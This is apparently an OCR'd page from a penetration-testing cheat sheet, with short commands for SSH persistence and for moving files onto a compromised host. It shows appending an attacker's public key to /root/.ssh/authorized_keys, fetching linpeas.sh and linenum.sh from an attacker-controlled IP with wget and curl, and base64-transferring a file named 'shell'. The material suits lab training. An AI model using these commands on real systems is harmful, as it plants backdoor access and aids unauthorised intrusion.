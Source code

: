 `sudo su user -`

Switch to a user (if we have access to  `sudo su`)

`ssh-keygen -f key`

Create a new SSH key

`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

Add the generated public key to the user

`ssh  root@10.10.10.10  -i key`

SSH to the server with the generated private key

**Transferring Files**

`python3 -m http.server 8000`

Start a local webserver

`wget http://10.10.14.1:8000/linpeas.sh`

Download a file on the remote server from our local machine

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Download a file on the remote server from our local machine

`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Transfer a file to the remote server with  `scp`  (requires SSH access)

`base64 shell -w 0`

Convert a file to  `base64`

`echo f0VMR...SNIO...InmDwU | base64 -d > shell`

Convert a file from  `base64`  back to its orig

`md5sum shell`

Check the file's  `md5sum`  to ensure it converted correctly

